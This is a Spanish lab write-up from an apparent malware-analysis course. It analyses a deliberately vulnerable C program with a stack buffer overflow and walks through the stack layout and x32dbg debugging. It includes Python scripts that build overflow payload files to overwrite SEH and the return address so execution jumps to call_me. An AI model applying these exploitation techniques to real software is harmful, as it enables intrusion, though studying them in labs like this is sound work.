# Análisis del código del binario
```c
#include <stdio.h>
#include <string.h>

void call_me() {
	printf("You cannot call me, noob!\n");
}

void parse_file(char* filename){
	char url[16];
	char buffer[512];

	printf("Abriendo fichero %s ...\n", filename);

	FILE *f = fopen(filename, "r");
	if(f == NULL){
		printf("Fallo al abrir el fichero :(\n");
		return;
	}
	printf("Leyendo fichero %s ...\n", filename);

	fread(buffer, 1, 256, f);
	printf("Fichero leido! Contenido: \n");
	//printf(buffer);

	printf("\nBuscando URL en el fichero..\n");

	char* url_start = strstr(buffer, "http://");
	if(url_start == NULL){
		printf("URL no encontrada :(\n");
		return;
	}

	memcpy(url, url_start, 512);

	printf("URL: %s\n", url);

	fclose(f);
	return;
}

int main(int argc, char** argv) {
	if(argc != 2){
		printf("Uso: %s <fichero>\n", argv[0]);
		return -1;
	}

	parse_file(argv[1]);
	return 0;
}
```

Este binario amplia el binario [stack1](https://github.com/soniasalido/cybersecurity/blob/main/LABS/Investigating%20Malware/Master-ENIIT-Analisis-Malware-Reversing/stack-buffer-overflow/stack1/stack1.md). Lee el fichero que se pasa como parámetro y busca en el, el contenido la subcadena `"http://"`. 
- Si no la encuentra: muestra en pantalla: `URL no encontrada :(` y vuelve.
- Si la encuentra, hace:
  ```c
  memcpy(url, url_start, 512);
  printf("URL: %s\n", url);
  ```
  - Copia desde donde empieza "http://" hasta 512 bytes (**esto está mal, porque url sólo tiene 16 bytes**) y,
  - luego intenta imprimirlo en pantalla como cadena.

El programa lee los primeros 256 bytes de un fichero, busca dentro de ellos una cadena que empiece por "http://", y si la encuentra intenta copiarla a url y mostrarla por pantalla (aunque lo hace de forma insegura y con desbordamiento de buffer). Usaremos este desbordamiento que aprovecha una vulnerabilidad en el programa para acceder a una función que no debería ser llamada (`call_me`) y para lanzar la calculadora.

---------------------------------------
# Problemas de seguridad detectados en el codigo C
## 1. buffer no está terminado en '\0'
```c
char buffer[512];
...
fread(buffer, 1, 256, f);
...
char* url_start = strstr(buffer, "http://");
```
donde:
- fread lee hasta 256 bytes sin añadir '\0'.
- strstr espera una cadena C terminada en '\0'.
- Como buffer no está terminado, strstr puede leer más allá de esos 256 bytes (memoria basura) → comportamiento indefinido.

## 2. Desbordamiento de `url`
```c
char url[16];
...
memcpy(url, url_start, 512);
```
donde:
- `url` tiene tamaño 16 bytes.
- Estamos copiando 512 bytes desde `url_start` a `url`.
- Es un stack-based buffer overflow de manual: pisamos todo lo que haya después de url en la pila (variables locales, puntero de retorno, etc.).

Además:
- No se añade '\0' a url, así que luego:
```c
printf("URL: %s\n", url);
```
donde:
- espera que `url` esté terminada en '\0', y volverá a leer memoria fuera del buffer.


**<mark>El desbordamiento que tenemos con memcpy(url, ...), podría ser usado para machacar:</mark>**
- `url`
- variables locales
- EBP
- RET
- SEH


## 3. Posible format string (aunque está comentado)
```c
//printf(buffer);
```
donde:
- Si esto se descomenta, tendremos una format string vulnerability:
	- `printf` interpreta el contenido de buffer como formato, no como texto plano.
	- Si el fichero contiene cosas como `%x`, `%n`, etc., podemos leer/escribir memoria.

## 4. Fugas de recurso (fichero sin cerrar)
Si no se encuentra la URL:
```c
if(url_start == NULL){
    printf("URL no encontrada :(\n");
    return;
}
```
donde:
- Ese return sale de la función sin hacer `fclose(f)`, así que el fichero queda abierto.


---------------------------------------
# ¿Que se desborda `url` o `buffer`?
```c
char url[16];
char buffer[512];
...
fread(buffer, 1, 256, f);       // ← escribe en buffer
...
char* url_start = strstr(buffer, "http://");
...
memcpy(url, url_start, 512);    // ← copia desde url_start (dentro de buffer) a url
```
donde:
- `buffer` tiene 512 bytes.
- `fread(buffer, 1, 256, f);` escribe como mucho 256 bytes en `buffer` → ahí NO hay overflow, estamos escribiendo 256 dentro de 512.
- `url` tiene 16 bytes.
- **`memcpy(url, url_start, 512);` copia 512 bytes a partir de url_start → el destino (url) sólo tiene 16 → aquí SÍ hay overflow.**


Resumiendo:
- Origen de `memcpy`: una posición dentro de `buffer` (`url_start`).
- Destino de `memcpy`: `url` (16 bytes).
- Lo que reventamos: `url` y lo que venga después en la pila: otras variables, `EBP`, `RET`, `SEH`, etc.


---------------------------------------
# Posible Layout de la pila para la función `parse_file`:
```c
          ▲  direcciones MÁS ALTAS → Arriba = direcciones grandes →  direcciones de memoria absolutas
          │
          │  (stack de la función que llama a parse_file)
          │
0x......  +------------------------------+
          |   argumentos del caller      |
          +------------------------------+
          |   return address a caller    |  ← [ebp+4]
          +------------------------------+
          |   EBP viejo (del caller)     |  ← [ebp]
EBP -->   +------------------------------+

          |   FILE *f                  |  ← [ebp-4]
          +------------------------------+
          |   char *url_start          |  ← [ebp-8]
          +------------------------------+
          |   padding/alineación?      |
          +------------------------------+
          |   url[16]                  |  ← [ebp-20]..[ebp-0x11] - Ocupa 16 Bytes
          +------------------------------+
          |   buffer[512]              |  ← [ebp-220]..[ebp-0x21]
          +------------------------------+
          |   (quizá más locals)       |
          +------------------------------+
ESP -->   |   SEH.next                 |  ← estructura SEH
          +------------------------------+
          |   SEH.handler              |
          +------------------------------+
          |   más cosas por debajo...  |
          +------------------------------+
          ▼  direcciones MÁS BAJAS → Abajo = direcciones pequeñas  →  direcciones de memoria absolutas

```
donde:
- Las variables locales (`buffer`, `url`, `f`, `url_start`) están entre `EBP` y el `SEH`.
- El registro `SEH` (los dos DWORD `next` y `handler`) cuelga por `debajo` de las variables locales, cerca de `ESP`. Windows lleva una lista enlazada de estos registros, cuyo principio está en FS:[0].
- Frame de la función (desde el punto de vista de C):
	- argumentos arriba (`filename`),
	- `return address`,
	- `EBP viejo`,
	- variables locales (`f`, `url_start`, `url`, `buffer`,…),
	- y al final, si el compilador lo usa, la estructura `SEH`.
- Estructura `SEH` en la pila:
	- cada registro `SEH` en la pila tiene dos DWORD:
		```
   		struct EXCEPTION_REGISTRATION {
   			struct EXCEPTION_REGISTRATION *next;
   			PEXCEPTION_HANDLER handler;
		};
  		```


---------------------------------------
# Lo que ocurre en el proceso del overflow
- Cuando memcpy va escribiendo `url[0]`, `url[1]`, ..., `url[15]`, va llenando:
	- `[ebp-20]`, `[ebp-1F]`, ... `[ebp-0F]` →  (los 16 primeros bytes).

- Pero como le decimos que copie 512, sigue escribiendo bytes más allá:
	- `url[16]` pisará lo que haya justo `encima` de `url`
	- y así sucesivamente hasta llegar a:
		- `url_start`
		- `f`
		- `saved EBP`
		- la dirección de retorno (`[ebp+4]`)
		- y, si el frame y el tamaño lo permiten, también la estructura `SEH` (que está unos bytes más `arriba` en memoria, porque desde el punto de vista de url vamos `subiendo`).


## En dirección lógica desde `url` hacia `arriba`:
```asm
url  →  url_start  →  f  →  EBP guardado  →  RET  →  SEH.next  →  SEH.handler
```
donde:
- `url` = 16 bytes → Ocupa 0x10 bytes → offsets 0x00 a 0x0F
- `EBP` = `url` + 0x20 → Empieza 32 bytes desde el inicio de `url` (0x20 = 32)
- `RET` = `url` + 0x24  → Empieza 36 bytes desde el inicio de `url` (0x24 = 36)
- `nSEH` = `url` + x → Ese x hay que medirlo con el debugger → (que es justo lo que se hace en los vídeos: mandar patrones para ver en qué offset salen)
- `SEH` = `url` + (x+4)

## La dirección del overflow 
La cadena anterior sirve como idea de por dónde se va extendiendo el overflow desde url hacia `arriba` en la pila. Pero en la práctica, el orden exacto de `url_start` y `f` puede cambiar (el compilador puede poner primero `f` y luego `url_start`). Esa cadena sólo sirve para entender el camino del overflow.

## Camnio del overflow
```
`buffer` (no se toca)
↓
`url`   (destino del memcpy)
↓
`url_start`
↓
`f`
↓
`EBP guardado`
↓
`RET`
↓
`nSEH`
↓
`SEH.handler`
```

Buffer está `debajo` de `url`. El overflow arranca en `url` y se extiende hacia `las cosas` que están `por encima` en la pila: primero `url_start` y `f`, luego `EBP`, luego `RET`, y si hay bytes suficientes, también `nSEH` y `SEH.handler`.
- `Arriba` = direcciones más bajas
- `Abajo` = direcciones más altas
- `memcpy` va siempre hacia abajo


## El overflow usando los offsets
Base = `url`  = 0x0012FF00
```c
0x0012FF00   buffer[512]
0x0012FF20   url[16]         ← empezamos a escribir aquí
0x0012FF30   url_start
0x0012FF34   f
0x0012FF38   EBP guardado
0x0012FF3C   RET
0x0012FF40   nSEH
0x0012FF44   SEH.handler
```

---------------------------------------
# El patrón del payload
Offsets desde `&url[0]`:
| Campo       | Tamaño | Offset inicio | Offset fin |
| ----------- | ------ | ------------- | ---------- |
| `url`       | 16 B   | 0x00          | 0x0F       |
| `url_start` | 4 B    | 0x10          | 0x13       |
| `f`         | 4 B    | 0x14          | 0x17       |
| padding     | 4 B    | 0x18          | 0x1B       |
| **EBP**     | 4 B    | 0x1C          | 0x1F       |
| **RET**     | 4 B    | 0x20          | 0x23       |
| **nSEH**    | 4 B    | 0x24          | 0x27       |
| **SEH**     | 4 B    | 0x28          | 0x2B       |

```
(↑ dir. más bajas)

    [ ... cosas anteriores ... ]
    [ buffer[512] ]
    [ url[16] ]       ← &url[0]  offset 0x00
    [ url_start ]     ← offset 0x10
    [ f ]             ← offset 0x14
    [ padding ]       ← offset 0x18
    [ EBP ]           ← offset 0x1C
    [ RET ]           ← offset 0x20
    [ nSEH ]          ← offset 0x24
    [ SEH ]           ← offset 0x28
    [ ... otras cosas ... ]

(↓ dir. más altas)
```

**Payload de ejemplo:**
```
payload =
  "A"*16   +		⬅ `url`
  "B"*4    +		⬅ `url_start`
  "C"*4    +		⬅ `f`
  "D"*4    +		⬅ `padding`
  "E"*4    +		⬅ `EBP`
  "F"*4    +		⬅ `RET`
  "G"*8				⬅ `SEH`
```
donde:
- A: 16 bytes
- B: 4 bytes
- C: 4 bytes
- D: 4 bytes
- E: 4 bytes
- F: 4 bytes
- G: 8 bytes  
→ Total: 44 bytes = 0x2C bytes


---------------------------------------
# Posibles usos de este overflow en `url`
### 1. Sobreescribir `SEH` → Vídeos de clase del tema.
→ → → [Ir a la sobreescritura de `SEH`](#explotación-del-overflow-para-sobreescribir-seh) → → →


### 2. Sobreescribir `RET` → Dirección de retorno de `parse_file`.
→ → → [Ir a la sobreescritura de `RET`](#explotación-del-overflow-para-sobreescribir-ret) → → →


### 3. Corrupción de punteros/variables internas (`f`, `url_start`, etc.)
Luego estos punteros/variables son usados en llamadas de biblioteca.  
→ → → Ir a la sobreescritura de `f` → → →


### 4. Vulnerabilidad de formato si se descomenta `printf(buffer)`.


---------------------------------------
# Primera ejecución del binario
Ejecutamos el binario con x32dbg para ir entendiendo cómo funciona. Vamos a usar el siguiente patrón como payload:
```python
import struct

CALL_ME = 0x00401530

p = bytearray(b'http://')
p += b'A' * 600
p += struct.pack("<I", 0)
p += struct.pack("<I", 0)
p += struct.pack("<I", 0)
p += struct.pack("<I", 0x42424242)
p += struct.pack("<I", CALL_ME)

with open("exp.txt", "wb") as f:
    f.write(p)
```

donde:
- El EIP está en 00401620 que x32dbg rotula como: `<JMP.&memcpy>`. En ensamblador estamos viendo el momento exacto en que va a ocurrir eso:
  ```c
  memcpy va a copiar 256 bytes (0x100)
  ```
- Pero el buffer de destino `(url)` solo tiene 16 bytes.


**Resultado:**
- memcpy empieza a escribir las A en url
- sigue escribiendo más allá: pisa otras variables locales, el EBP guardado y, si sigues, el ret de la función (dirección de retorno).
- eso es el stack-based buffer overflow que estamos intentando observar.


donde:
- EAX = 0022FE88
- [ebp-20] (la variable local url) es la dirección 0x0022FE88.
- En esa dirección el contenido es 0x70747468 = "http" en little endian.
  

**Conclusión:**
- memcpy ya ha copiado la cadena que empezaba en `url_start ("http://AAAAAA...")` encima del `buffer url`.






donde:
- EIP = 0040163E → estamos en el `call <JMP.&fclose>`.
- En el panel de registros: `EAX = 41414141`.
- En el Default (stdcall): `[esp] = 41414141` → es decir, el argumento que se va a pasar a `fclose` es `0x41414141`.
- Eso significa que nuestro overflow:
	- Ha sobrescrito la variable local `f` (el FILE * devuelto por fopen),
	- de manera que cuando el código hace `fclose(f)`, en realidad está haciendo: `fclose((FILE*)0x41414141);` Es un puntero totalmente inválido → cuando entremos en msvcrt!fclose, en cuanto intente dereferenciar ese puntero, lo normal es que se produzca una violación de acceso y el programa se estrelle antes incluso de hacer el `ret` de `parse_file`.


## Análisis del punto `00401608`

```c
00401608  C74424 08 00010000   mov dword ptr ss:[esp+8], 100h	; 0x100 = 256 - Esto tercer argumento de memcpy → el tamaño - Escribe el valor 0x100 (256d) en [esp+8]
00401610  8945 F0             mov dword ptr ss:[ebp-10], eax	; Guarda en la variable local situada en [ebp-10] el valor de EAX. Resultado `url_start = EAX;`
00401613  894424 04           mov dword ptr ss:[esp+4], eax		; `[esp+4]` es el segundo parámetro de `memcpy → src`.  Resultado: src = url_start;
00401617  8D45 E0             lea eax, dword ptr ss:[ebp-20]	; Calcula la dirección de `[ebp-20]` y la mete en EAX.  Resultado: EAX = &url;
0040161A  890424              mov dword ptr ss:[esp], eax		; `[esp]` es el primer parámetro de `memcpy → dst`. Resultado: dst = url;
0040161D  E8 47110000         call <JMP.&memcpy>				; Llama a `memcpy` con los tres parámetros que acabamos de preparar en la pila.
```

Ese bloque es la preparación de la llamada a memcpy que viene de:
```c
memcpy(url, url_start, 512);   // el compilador la ha dejado en 256 (0x100)
```

En 32 bits, los parámetros de una función como `memcpy(dst, src, size)` se pasan así en la pila:
- `[esp]` → 1er parámetro → `dst`
- `[esp+4]` → 2º parámetro → `src`
- `[esp+8]` → 3er parámetro → `size`


**<mark>En el vídeo de tutoría, aparece un cambio en este punto:</mark>**
```c
00401608  C74424 08 00010000   mov dword ptr ss:[esp+8], 200h
```


**<mark>Este detalle ¿cambia significativamente la explotacion? Si no se edita manualmente ese valor y se cambia por 200, no se puede explotar la vulnerabilidad.</mark>**


En mi binario copia 256 bytes:
```c
mov [esp+8], 100h   ; 256 bytes
```

En el binario del vídeo copia 512 bytes:
```c
mov [esp+8], 200h   ; 512 bytes
```

En este ejercicio se hace una explotación basada en SEH (Structured Exception Handler), es decir, manipulando la cadena de manejadores de excepciones que Windows almacena en la pila. La posición del SEH en la pila es fija para ese binario.
Pero el desbordamiento tiene que alcanzar esa posición para afectarlo.

**Conceptualmente podríamos ver la explotación de este binario:** Un binario Windows 32-bit organiza la pila así:
```
+------------------+
| Variables locales |
+------------------+
| Saved EBP         |
+------------------+
| SEH Frame:        |
|   nSEH            |
|   SEH             |
+------------------+
| más cosas...      |
```
donde:
- url está al principio de la zona local: 16 bytes.
- Luego variables intermedias.
- Luego EBP.
- Luego la estructura SEH.

En el vídeo de la tutoría: `distancia(url → SEH) ≈ 400 bytes`  
→ Necesita 512 bytes para alcanzarlo.  
→ Con 256 no llega.  

**En mi binario con `mov [esp+8], 100h`:**
- First chance exception on 6FF63D9D (C0000005, EXCEPTION_ACCESS_VIOLATION) y a la derecha: ESI = 41414141 --> el overflow ha sobreescrito registros y memoria, pero…
	- 💥 **NO ha sobreescrito SEH.**
	- 💥 La cadena SEH sigue intacta (En el panel SEH: “End of SEH chain”).
	- La excepción ocurre dentro de msvcrt.dll (fclose, printf…), pero Windows no está llamando al “SEH modificado” porque NO está modificado.
 	- Resultado: **No podemos explotar el SEH.**




**En el binario del vídeo con mov `[esp+8], 200h`:**
- SÍ SE SOBREESCRIBE EL SEH.
- El overflow sí alcanza el registro SEH y lo corrompe.
- Resultado: Se puede hacer explotación SEH tal como muestra el profesor en el vídeo de la tutoría.





---------------------------------------
# Explotación del overflow para sobreescribir SEH
**Exploit para explotar la vulnerabilidad:**
```c
import struct

CALL_ME = 0x00401530

p = bytearray(b'http://')
p += b'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9'

with open("exp2.txt", "wb") as f:
    f.write(p)
```


```c
import struct

CALL_ME = 0x00401530

p = bytearray(b'http://')
p += b'A' * 309 + b'BBBB' + b'CCCC'
#p += struct.pack("<I", 0)
#p += struct.pack("<I", 0)
#p += struct.pack("<I", 0)
#p += struct.pack("<I", 0x42424242)
#p += struct.pack("<I", CALL_ME)

with open("exp3.txt", "wb") as f:
    f.write(p)
```

**Otro script:**
```c
import struct

CALL_ME = 0x00401530

p = bytearray(b'http://')
p += b'A' * 309 + b'BBBB'
#p += struct.pack("<I", 0)
#p += struct.pack("<I", 0)
#p += struct.pack("<I", 0)
#p += struct.pack("<I", 0x42424242)
p += struct.pack("<I", CALL_ME)

with open("exp4.txt", "wb") as f:
    f.write(p)
```

